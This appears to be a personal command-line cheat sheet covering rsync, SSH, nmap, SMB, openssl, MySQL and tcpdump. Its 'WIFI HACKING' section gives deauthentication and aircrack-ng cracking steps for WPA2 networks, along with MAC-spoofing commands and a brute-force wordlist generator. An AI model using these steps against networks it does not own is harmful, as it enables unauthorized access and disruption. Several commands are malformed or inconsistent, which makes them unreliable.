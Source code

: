 # Command Line Fu
command to help out for when you in the terminal\
--------------------------------------------------------\
**###normal rsync**\
rsync -avzh root@source.com:/pwd/ destination/pwd/file\
\
**###jump via another host that can connect to destination**\
rsync -avzh -e "ssh -J root@source1.com,root@source2.com" root@source.com:/pwd/ destination/pwd/file\
\
**###pivot ssh**\
ssh -t root@source.com ssh root@destination.com\
\
**###only show mac address and vendor with ipaddress**\
nmap -sn 10.10.10.0/24 | awk '/Nmap scan report for/{printf $5;}/MAC Address:/{print " => "substr($0, index($0,$3)) }' | sort\
\
**###short update and upgrade**\
apt update ; apt upgrade\
\
**###change mnt directory to mount drive**\
ls -lsah / | egrep -e "mnt" | awk {'print $2,$6,$10'} | sed -e "s/mnt/mount drive/g" | cut -d "e" -f 1\
\
**###calculator**\
echo $((4 + 2))\
\
**###samba connect**\
smbclient -L 10.0.0.50\
smbclient -N -L \\\\YOUR_TARGET_IP\\DIRECTORY_NAME\
smbclient //10.0.0.50/sharedFolderName/ -m SMB3\
\
**###change mac address**\
ifconfig eth0 down \
ifconfig eth0 hw ether 02:5d:6c:e8:8d:b2 \
ifconfig eth0 up \
\
**###check if eth0 mac address has changed**\
tcpdump -i eth0 -e -n "icmp and host 192.168.0.2"\
\
**###mac to monitor mode**\
ifconfig eth0 down \
ifconfig eth0 mode monitor \
ifconfig eth0 up \
\
**###generate ssh keys**\
ssh-keygen -t ed25519 -C "your_email@example.com"\
\
<sup><sub>Note: If you are using a legacy system that doesn't support the Ed25519 algorithm, use:</sub></sup>\
ssh-keygen -t rsa -b 4096 -C "your_email@example.com"\
\
**###generate ssl certificate 2048 bit strong - no CA**\
openssl genrsa -out epp.key 2048\
openssl req -new -x509 -key epp.key -out epp.crt -days 365\
cat epp.key epp.crt > epp.pem\
\
**###show contents of ssl certificate**\
openssl s_client x509 -in name.crt -text -noout\
\
**###connect to server**\
openssl s_client -connect server.com -cert name.crt -key name.key -verify 10 -debug\
\
**###connect to server check port**\
telnet 123.456.789.012 3386\
\
**###check the connection**\
tcpdump -n tcp and port 700\
\
**###check mysql and its logs**\
mysql -se "SHOW VARIABLES" | grep -e log_error -e general_log -e slow_query_log\
mysql -e "SELECT @@GLOBAL.log_error"\
tail -f $(mysql -Nse "SELECT @@GLOBAL.log_error")\
mysql -e "SHOW FULL PROCESSLIST;"\
\
**###parallel - multithreading usage**\
ls -lsah | parallel echo\
seq 1 | parallel /usr/bin/php8.1 test.php\
seq 10 | parallel /usr/bin/python3 --version\
\
**###for loop file**\
for i in $(cat list);do echo $i; done\
\
**###random mac address**\
///file NAME: mac.sh
```
#!/bin/bash
LC_CTYPE=C
MAC=00:14:7C #3COM CARD
for i in {1..3}
do
    IFS= read -d '' -r -n 1 char < /dev/urandom
    MAC+=$(printf -- ':%02x\n' "'$char")
done
printf '%s\n' "$MAC"

# ----------------------------------------
# chmod +x mac.sh
# $ ./mac.sh 
# ba:aa:92:cf:38:2e
# use mac/oui address lookup file in git
```
# TCPDUMP
Filtering ICMP echo reply echo request Packets with tcpdump command\
--------------------------------------------------------\
0 Echo Reply\
3 Destination Unreachable\
4 Source Quench\
5 Redirect\
8 Echo\
11 Time Exceeded\
--------------------------------------------------------\
With the following command, we can filter ICMP echo-reply,

**##### tcpdump -i eth0 “icmp[0] == 0”

To filter ICMP echo-requests, we can use this tcpdump command.

**##### tcpdump -i eth0 “icmp[0] == 8”

How to use tcpdump to capture ICMPv6 packets
In IPv6, an IPv6 packet is 40 bytes long, and the first 8 bits of the ICMPv6 header specify its type. We can use this tcpdump command to filter all ICMPv6 packets.

**##### tcpdump -i eth0 icmp6

We can use this tcpdump command to filter ICMPv6 echo-requests.

**##### tcpdump -i eth0 “icmp6 && ip6[40] == 128”

In the latest versions of tcpdump/libpcap, we can use the following command to capture ICMPv6 echo packets.

**##### tcpdump -i eth0 ‘icmp6[icmp6type]=icmp6-echo’

# WIFI HACKING
Commands used in wifi WPA2 hacking\
--------------------------------------------------------\
you will need a wifi card that can do packet injection and monitor mode... \
to test this use the following commands\

check card supports monitor mode\
**##### ifconfig wlan0 down\
**##### iwconfig wlan0 mode monitor\
**##### ifconfig wlan0 up\
**##### iwconfig ----- check if card is in monitor mode under man\

check card supports packet injection\
**##### terminal 1: airodump-ng wlan0\
**##### terminal 1: airodump-ng -c 2 -w packetcapture -d 00:00:00:00:00:00 wlan0\
**##### terminal 2: aireplay-ng --deauth -a 00:00:00:00:00:00 -c 00:00:00:00:00:00 wlan0\
**##### terminal 3: aircrack-ng packcapture.pcap -w passwords.txt















# WIFI HACKING GENERATE PASSWORD LIST
Python3 Script to generate a password list of 8 char from terminal\
usage: python3 this_code_filename.py > password_list.txt\
--------------------------------------------------------\
#!/usr/bin/env python3

#DESCTIPION
#This is a wifi password list generator - default 8 chars of all characters for password


#CONDITIONS
#Are not based on personal information (PII)
#Not a word in any language, slang, dialect, or jargon
#Both Uppercase and lowercase letters (e.g., a–z, A–Z)
#Base numbers and non-alphanumeric symbols !@#$%^&*()~`_-=[]{}\|;':"<>?,./ 
#abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/ with a space.


#entire list of chars in wifi password list 
alph_num_spec_arr = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z','0','1','2','3','4','5','6','7','8','9','!','@','#','$','%','^','&','*','(',')','-','_','+','=','~','`','[',']','{','}','|','\\',':',';','\"','<','>',' ',',','.','?','/','\'']


for a in range(0, len(alph_num_spec_arr)):   #1 char 
  for b in range(0, len(alph_num_spec_arr)):  #2 char
    for c in range(0, len(alph_num_spec_arr)):  #3 char
      for d in range(0, len(alph_num_spec_arr)):  #4 char
        for e in range(0, len(alph_num_spec_arr)):  #5 char
          for f in range(0, len(alph_num_spec_arr)):  #6 char
            for g in range(0, len(alph_num_spec_arr)):  #7 char
              for h in range(0, len(alph_num_spec_arr)):  #8 char

                #print the output to terminal or file with > wordlist 
                print(alph_num_spec_arr[a], alph_num_spec_arr[b], alph_num_spec_arr[c], alph_num_spec_arr[d], alph_num_spec_arr[e], alph_num_spec_arr[f], alph_num_spec_arr[g], alph_num_spec_arr[h], sep=''), #print all








